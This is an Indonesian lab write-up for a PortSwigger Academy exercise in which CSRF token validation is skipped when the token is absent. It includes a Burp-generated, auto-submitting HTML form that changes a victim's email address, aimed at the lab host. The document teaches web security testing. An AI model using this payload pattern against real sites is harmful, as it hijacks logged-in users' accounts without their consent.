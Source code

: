 
# CSRF where token validation depends on token being present

Fitur pengubahan email di lab ini rentan terhadap **serangan CSRF**.

**Untuk menyelesaikan lab**, gunakan exploit server Anda untuk menayangkan sebuah halaman HTML yang melakukan **serangan CSRF** untuk mengganti alamat email pengunjung.

Anda dapat login ke akun Anda sendiri dengan kredensial:
```
Username: wiener
Password: peter
```

> **Hint**: Anda tidak dapat mendaftarkan alamat email yang sudah dipakai oleh pengguna lain. Jika Anda mengubah email Anda sendiri saat menguji exploit, pastikan menggunakan alamat yang berbeda saat mengirimkan exploit final ke korban.

---

### Referensi
- [Bypassing token validation - PortSwigger](https://portswigger.net/web-security/csrf/bypassing-token-validation)

---

![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)

---

Dalam kasus ini, **request POST** default untuk mengubah email memiliki parameter `csrf`, namun **ternyata tetap berhasil** jika kita **hanya mengirimkan parameter email** saja **tanpa** token `csrf`:

![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)

Jika kita mengklik "Engagement tools" > "Generate CSRF PoC" di Burp Suite, akan dihasilkan HTML **PoC** berikut:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a27008804d6685d8057df8500ab003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test4&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Penjelasan Singkat PoC
- Aplikasi **mengharuskan** token `csrf` hanya jika parameter tersebut **ada**.  
- Namun jika parameternya **dihapus** sepenuhnya, validasi tidak berjalan, dan **request tetap diproses**.  
- Dengan menyertakan `<script>` yang memanggil `document.forms[0].submit();`, korban **tidak perlu** menekan tombol apa pun. Begitu halaman terbuka, **request POST** akan otomatis dikirim ke `/my-account/change-email` dengan **parameter email** saja.  
- Jika korban **masih login**, browser akan **mengirim session cookie** ke server, dan email korban akan berhasil diubah ke `test4@test.com`.

**Langkah terakhir**: Unggah HTML PoC ini ke **exploit server**, lalu berikan link ke korban. Saat korban mengunjungi tautan dan masih login, perubahan email akan terjadi.
